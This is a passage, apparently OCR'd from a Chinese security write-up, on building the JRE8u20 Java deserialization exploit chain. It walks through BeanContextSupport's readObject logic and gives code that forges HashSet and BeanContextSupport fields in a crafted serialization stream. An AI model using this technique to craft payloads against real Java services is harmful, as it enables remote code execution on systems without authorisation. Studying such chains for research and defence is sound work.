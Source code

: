 ```java
                        Length - 4 - 0x00 04
                        Value - test - 0x74657374
          TC_ENDBLOCKDATA - 0x78
  TC_REFERENCE - 0x71
    Handle - 8257540 - 0x00 7e 00 04
```

### ***JRE8u20 构造思路***

#### ****BeanContextSupport 类关注点****

看一下 ```BeanContextSupport``` 类的反序列化方法

```java
private synchronized void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {

    synchronized(BeanContext.globalHierarchyLock) {
        ois.defaultReadObject(); // 调用默认的反序列化方法

        initialize(); // 初始化一堆字段

        bcsPreDeserializationHook(ois); 

        if (serializable > 0 && this.equals(getBeanContextPeer())) // 当 serializable > 0，并且父类 beanContextChildPeer 字段值为当前对象时，调用 readChildren 方法调用子对象的 readObject 方法
            readChildren(ois);

        deserialize(ois, bcmListeners = new ArrayList(1)); // 当 ois.readInt() 大于零时继续反序列化对象，并将对象添加到 bcmListeners 中
    }
}
```

所以我们在重写 ```BeanContextSupport``` 类的序列化数据时应该这样写入：

```java
defaultWriteObject();
writeObject0(getInvocationHandler(), false);
bout.writeInt(0);
```

并且 ```serializable``` 的字段值设置为 1，```beanContextChildPeer``` 字段值设置为 ```BeanContextSupport``` 对象。



#### ****原有序列化流程修改点****

1、在 HashSet 类中构造假字段，字段类型为 ```java.beans.beancontext.BeanContextSupport```，BeanContextSupport 和 BeanContextChildSupport 类只写入自己想要写入的字段；

```java
if (cl == java.util.HashSet.class){
    fields = SetHashField(); // 构造 HashSet 类假字段
}else if (cl == java.beans.beancontext.BeanContextSupport.class){
    fields = SetBeanContextSupportField(); // BeanContextSupport 序列化要写入的字段 serializable
}else if (cl == java.beans.beancontext.BeanContextChildSupport.class){
    fields = SetBeanContextChildSupportField(); // BeanContextChildSupport 序列化要写入的字段 beanContextChildPeer
}else {
    fields = getSerialFields(cl); // 默认获取序列化字段流程
}
```
2、修改 ```sun.reflect.annotation.AnnotationInvocationHandler``` 类的 ```hasWriteObjectData``` 值
